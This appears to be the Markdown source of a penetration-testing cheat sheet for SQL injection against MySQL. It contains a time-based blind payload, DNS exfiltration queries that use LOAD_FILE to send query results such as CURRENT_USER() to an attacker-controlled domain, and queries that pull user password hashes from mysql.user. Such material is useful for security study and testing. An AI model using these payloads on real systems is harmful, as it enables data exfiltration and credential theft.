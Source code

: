 
## Blind - Time based

[ftb](/articles/owasp10/SQLi/#time-based)

| Function | Command | Ref. |
| --- | --- |---|
| IF query (10sec) | `IF((^^boolean query^^), sleep(10), NULL );';`{:.language-sql .highlight}|  |
|===|===|===|


## Out of Band - DNS

[ftb](/articles/owasp10/SQLi/#dns-exfiltration)

| Function | Command | Ref. |
| --- | --- |---|
| Test DNS query | `SELECT LOAD_FILE('\\\\^^attackerdomain^^\\x.txt');`{:.language-sql .highlight}<br>eg. `SELECT LOAD_FILE('\\\\domain.com\\x.txt');`{:.language-sql .highlight} | [MySQL](https://dev.mysql.com/doc/refman/8.0/en/string-functions.html#function_load-file) |
| DNS Exfiltration | `SELECT LOAD_FILE(CONCAT('\\\\',^^query^^,'.^^attackerdomain^^\\x.txt'));`{:.language-sql .highlight}<br>eg. `SELECT LOAD_FILE(CONCAT('\\\\',CURRENT_USER(),'.domain.com\\x.txt'));`{:.language-sql .highlight} |
|===|===|===|

# MySQL Commands

## General

| Function | Command | Ref. |
| --- | --- | --- |
| Block Comment | `/*comment is here (can spread multiple lines)*/`{:.language-sql .highlight} | [MySQL](https://dev.mysql.com/doc/refman/8.0/en/comments.html) |
| Comment | `-- comment here, can go at end of line or it's own line`{:.language-sql .highlight} | [MySQL](https://dev.mysql.com/doc/refman/8.0/en/comments.html) |
| Comment | `# comment here, can go at end of line or it's own line`{:.language-sql .highlight} | [MySQL](https://dev.mysql.com/doc/refman/8.0/en/comments.html) |
| SELECT | `SELECT ^^column^^ FROM ^^table^^;`{:.language-sql .highlight}<br>eg.`SELECT username FROM users;`{:.language-sql .highlight}  | [MySQL](https://dev.mysql.com/doc/refman/8.0/en/select.html) |
| WHERE | `SELECT ^^column^^ FROM ^^table^^ WHERE ^^condition^^;`{:.language-sql .highlight}<br>eg.`SELECT password FROM users WHERE username='admin';`{:.language-sql .highlight}  | [MySQL](https://dev.mysql.com/doc/refman/8.0/en/select.html) |
| WHERE IN | `SELECT ^^column^^ FROM ^^table^^ WHERE ^^column^^ IN (^^array^^);`{:.language-sql .highlight}<br>eg.`SELECT password FROM users WHERE username IN ('admin','jim','jerry');`{:.language-sql .highlight}  | [MySQL](https://dev.mysql.com/doc/refman/8.0/en/select.html) |
| WHERE NOT IN <br>(useful if not all results visible) | `SELECT ^^column^^ FROM ^^table^^ WHERE ^^column^^ NOT IN (^^array^^);`{:.language-sql .highlight}<br>eg.`SELECT password FROM users WHERE username NOT IN ('tim','clarence','linda');`{:.language-sql .highlight}  | [MySQL](https://dev.mysql.com/doc/refman/8.0/en/select.html) |
|===|===|===|

## User Enumeration

| Function | Command | Ref. |
| --- | --- | --- |
| Get SQL User | `SELECT USER()`{:.language-sql .highlight} | [MySQL](https://dev.mysql.com/doc/refman/8.0/en/information-functions.html) |
| | `SELECT SYSTEM_USER()`{:.language-sql .highlight} | [MySQL](https://dev.mysql.com/doc/refman/8.0/en/information-functions.html) |
| | `SELECT CURRENT_USER()`{:.language-sql .highlight} | [MySQL](https://dev.mysql.com/doc/refman/8.0/en/information-functions.html) |
| | `SELECT SESSION_USER()`{:.language-sql .highlight} | [MySQL](https://dev.mysql.com/doc/refman/8.0/en/information-functions.html) |
| Get Users | `SELECT User, Host FROM mysql.user;`{:.language-sql .highlight} | [MySQL](https://dev.mysql.com/doc/refman/8.0/en/grant-tables.html#grant-tables-user-db) |
| Get Password hash (<5.6) | `SELECT User, Password FROM mysql.user`{:.language-sql .highlight} | [MySQL](https://dev.mysql.com/doc/refman/5.6/en/grant-tables.html) |
| Get Password hash | `SELECT User, authentication_string FROM mysql.user`{:.language-sql .highlight} | [MySQL](https://dev.mysql.com/doc/refman/8.0/en/grant-tables.html#grant-tables-user-db) |
|===|===|===|
